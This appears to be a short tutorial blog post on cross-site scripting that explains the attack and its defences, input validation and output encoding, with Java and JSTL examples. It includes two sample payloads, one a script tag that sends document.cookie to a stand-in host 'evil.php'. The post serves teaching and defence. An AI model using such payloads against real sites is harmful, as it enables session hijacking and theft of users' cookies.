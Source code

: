 ```yaml
---
layout: post
title:  Security - XSS
tags: security
---
```


This is the second post of a **Web Security Series**. Let's talk about the well known XSS (Cross-Site Scripting) attack.

## XSS

XSS attacks are based on script injection exploiting the echoes/output from the server in response to user input, without validation or output encoding.

```html
<form action="benign.php" method="post">
    <input type="text" name="message">
    <input type="submit" value="submit">
</form> 

<!-- output sent message -->
${message}
```

#### Example #1

Injecting a script to send cookies to a malicious site.

```html
<script>new Image().src = ‘http://evil.php/steal?' + document.cookie</script>
```

#### Example #2

Injecting a simple tag to execute random javascript.

```html
<b onmouseover=alert('Wufff!')>click me!</b>
```

## Solution

There are two well known types of XSS attacks (Stored and Reflected). Stored or persistent *XSS* attacks are saved/persisted in the backend and can be retrieved later for various uses. Reflected are the ones shown in the previous examples.

To address both the issues, both user **input validation** should be enforced as well as **output encoding**.

### Input Validation

We can use the framework of choice to help validate user input. We should strive for whitelisting as much as possible.

```java

// bean validation example
class Message {

@NotNull
@Pattern(regexp="[a-z]*")
@Size(min=5, max=10)
private String payload;

// getters and setters omitted
}

// controller 
@Valid Message message;
```

Couple of **Important Notes**:
* whitelist as much as possible, not blacklist.
* Avoid reflecting input back to the user (form, url, etc).

### Output Validation

Leverage the framework encoding capabilities to encode the output to prohibit writing malicious code back into the *HTML*.

```html
<!-- output sent message (jstl) -->
<c:out value="${message}"/>
```

## Caveats

**Response Header**
- X-XSS-Protection: 1; mode=block

Although modern browser use this header to validate XSS potential responses and block the output. This should not be relied upon as some browsers can disregard this instruction. 